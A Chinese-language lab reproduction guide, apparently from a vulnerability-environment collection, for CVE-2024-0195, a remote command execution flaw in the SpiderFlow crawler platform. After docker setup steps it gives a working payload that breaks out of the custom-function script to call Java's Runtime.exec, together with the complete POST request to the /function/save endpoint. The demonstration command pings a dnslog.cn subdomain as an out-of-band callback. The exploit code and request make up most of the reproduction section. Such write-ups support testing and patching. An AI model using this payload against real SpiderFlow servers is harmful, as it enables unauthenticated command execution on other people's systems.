


# CVE-2024-0195-SpiderFlow爬虫平台远程命令执行漏洞

spider-flow 是一个爬虫平台，以图形化方式定义爬虫流程，无需代码即可实现一个爬虫

官网地址：https://www.spiderflow.org/

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-0195
- https://blog.csdn.net/shelter1234567/article/details/135676548

## 漏洞环境

执行如下命令启动一个spiderflow-v0.5.0-web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`无需登录即可查看spiderflow页面。


## 漏洞复现

在平台spiderflow的页面中有一个自定义函数



构造payload



```
return java.lang./****/Runtime};r=test();r.getRuntime().exec('ping 18k2tu.dnslog.cn');{
```

查看dnslog回显


burp发包

```
POST /function/save HTTP/1.1
Host: 192.168.116.128:8080
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 139

id=&name=test&parameter=test&script=return+java.lang.%2F****%2FRuntime%7D%3Br%3Dtest()%3Br.getRuntime().exec('ping+18k2tu.dnslog.cn')%3B%7B
```

